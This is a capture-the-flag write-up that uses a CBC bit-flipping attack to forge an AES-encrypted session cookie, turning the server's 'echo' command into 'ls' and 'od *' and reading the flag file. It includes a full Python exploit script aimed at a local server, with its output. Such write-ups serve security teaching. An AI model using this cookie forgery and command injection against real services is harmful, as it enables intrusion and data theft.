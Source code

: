 # Flippin' Awesome Writeup
The site lets you log in with a username. When logging in, we are greeted with
a message like the following:

```
Welcome, test! Here's the time: Thu Feb 28 13:06:55 CET 2019
```

The first thing that stands out is the time printing. It looks an awful lot like
the output of the `date` command. Keep this in mind for later.

Reading the source code, we can see that the cookie is encrypted using AES-CBC.
The cookie format looks like this:
```
{"cmd": "echo \"Welcome, test!\nHere's the time: $(date)\"", "username": "test"}
```

Now we know that the time output actually comes from the `date` command.

When we visit the `/motd` page with a valid cookie, the cookie is decrypted and
the `cmd` field is run using `subprocess.check_output()`. If we can somehow
control this data, we can run arbitrary commands on the system! Unfortunately
for us, the username is sanitized using `sanitize_username()` before it's
stored. So there's no way to do command injection using the username field.

One possibility, however, is to use a CBC bit flipping attack! See
[this](https://resources.infosecinstitute.com/cbc-byte-flipping-attack-101-approach/#gref)
post for a nice and detailed description of the attack.

The cookie data has to be valid JSON when decrypted, so we can only change the
first block of the ciphertext. The reason for this is that the IV is prepended,
so we can flip bits there without corrupting parts of the JSON data.

Let's take a look at the first block, where we can flip bits.

```
{"cmd": "echo \\"
```

The command and the JSON data still has to parse correctly, so we can't simply
remove the escape character or the quotation mark.

We can start by running a very short command, though, just to see that it works.
The following code is based on [this](https://ctftime.org/writeup/11811)
writeup. However, we have added usage of the `requests` module to automatically
set the cookie and visit the `/motd` page.

```python
from base64 import b64decode, b64encode
from binascii import hexlify
from hashlib import md5
from Crypto.Cipher import AES
from Crypto import Random
import requests
from bs4 import BeautifulSoup
import re

motd = "0duSaqOSkgmu8BPSALSp3V9bOKJZ3HmuzlCcMddW94vjHWPjVrpHkB46IISXZpDFpd19cMLCRiqUZI+NmK7kmpcmsd4y3If/27AMA/hHQ9wfJMu4WOs8FPBCMdGLq3ahJWNNV/qPDQNa4k2szCIdPQ=="


BLOCK_SIZE = 16
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * \
                chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)
unpad = lambda s: s[:-ord(s[len(s) - 1:])]

class AESCipher:
    """
    Usage:
        c = AESCipher('password').encrypt('message')
        m = AESCipher('password').decrypt(c)
    Tested under Python 3 and PyCrypto 2.6.1.
    """

    def __init__(self, key):
        self.key = md5(key.encode('utf8')).hexdigest()
        self.iv = "\x00" * BLOCK_SIZE

    def encrypt(self, raw):
        raw = pad(raw)
        cipher = AES.new(self.key, AES.MODE_CBC, self.iv)
        return b64encode(cipher.encrypt(raw))

    def decrypt(self, enc):
        enc = b64decode(enc)
        cipher = AES.new(self.key, AES.MODE_CBC, self.iv)
        return unpad(cipher.decrypt(enc)) #.decode('utf8')

# https://ctftime.org/writeup/11811
def xor(a, b):
    """
    return a bytearray constructed by XORing a and b
    """
    out = bytearray()
    for i,c in enumerate(a):
        out.append(c ^ b[i])
    return bytes(out)


def construct_cookie(cookie_value):
    # current and desired plaintext, obtained by observing the cookie
    current_plaintext = bytearray('{"cmd": "echo \\"', 'utf8')
    desired_plaintext = bytearray('{"cmd": "ls * \\"', 'utf8')
    desired_plaintext = bytearray('{"cmd": "pwd ;\\"', 'utf8')
    desired_plaintext = bytearray('{"cmd": "od *;\\"', 'utf8')
    #desired_plaintext = bytearray('{"cmd": "cat *; ', 'utf8')

    # base64-decode the cookie value
    decoded_cookie = b64decode(cookie_value)
    # split the IV and the message
    original_iv = decoded_cookie[:16]
    # construct the mask for the first block
    desired_iv = xor(xor(desired_plaintext, current_plaintext), bytearray(original_iv))
    # prepend the new IV to the original ciphertext
    altered_ciphertext = desired_iv+decoded_cookie[16:]
    # base64-encode the cookie value
    cookie = b64encode(altered_ciphertext).decode("utf8")
    return cookie

cookie = construct_cookie(motd)
print(cookie)

r = requests.get('http://localhost:5000/motd', cookies=cookies)
print(r.status_code)
print("Response:")

soup = BeautifulSoup(r.text, "html.parser")
text = re.sub(r'\n\s*\n', r'\n\n', soup.get_text().strip(), flags=re.M)
print(text)
```

Running it yields the following output:
```
$ python3 win.py
200
Response:
flag.txt
server.py
templates
/bin/sh: 2: Welcome, aaaaa!
Here's the time: Thu Feb 28 13:21:26 CET 2019: not found
```

Nice, the flag is right there! Now, we just need to find a very short command
that allows us to read the flag file. One such command is `od`.

We can change `echo \\"` to `od *;\\"` and we will still have a valid string
inside the command, and valid JSON data. You might notice that the output from
`od` looks really weird, though. So we added some code to the solution script to
parse the output from `od` and turn it back into a normal string again.

See the top-voted answer
[here](https://unix.stackexchange.com/questions/8502/how-is-the-octal-2-byte-output-calculated-from-od)
for an explanation of the output format.

```bash
$ python3 win.py
200
Response:
	[ tons of output ]
flag: TG19{thank_you_for_flipping_some_bits}
```
